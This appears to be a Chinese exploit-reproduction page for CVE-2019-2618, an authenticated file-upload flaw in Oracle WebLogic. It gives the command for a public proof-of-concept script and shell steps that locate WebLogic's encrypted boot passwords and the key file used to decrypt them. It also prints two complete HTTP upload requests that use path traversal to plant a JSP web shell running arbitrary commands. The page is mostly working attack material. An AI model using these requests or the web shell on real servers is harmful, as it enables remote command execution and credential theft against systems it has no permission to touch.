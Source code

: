 # cve-2019-2618

> 原文：[http://book.iwonder.run/0day/Weblogic/（CVE-2019-2618）.html](http://book.iwonder.run/0day/Weblogic/（CVE-2019-2618）.html)

## 一、漏洞简介

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

[https://github.com/ianxtianxt/cve-2019-2618](https://github.com/ianxtianxt/cve-2019-2618)

### python 使用

```
python CVE-2019-2618.py url username password 
```

![image](img/8f1cd5e14212fa65d323df49df8b46eb.png) ![image](img/ca4cc334f3cc009b9f7fadfe8170ebf4.png)

### 解密 weblogic 密码

```
root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
root@f0cb7e674d7e:~/Oracle# 

weblogic 账号密码： weblogic/Oracle@123 
```

![image](img/7811f48ab11cff1d93023d172a9a7e03.png)

### 使用 docker 搭建环境

参考 vulnhub

```
root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
1.png  docker-compose.yml  README.md  set_mirror.sh
root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d 
```

![image](img/c085011fe14cad9b238152450bdcb134.png)

```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 10.10.20.166:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
serverName: Jas502n
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 1081

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
Content-Type: false

 <%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML> 

------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```

### 也可以换个目录上传

```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
bea_wls_internal 
bea_wls_deployment_internal 在同目录
这是漏洞 war 位置 
```

![image](img/38404cd0183c8c1bccaca43b162803a6.png)

```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 10.10.20.166:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
serverName: Jas502n
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 1084

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
Content-Type: false

 <%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML> 

------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```

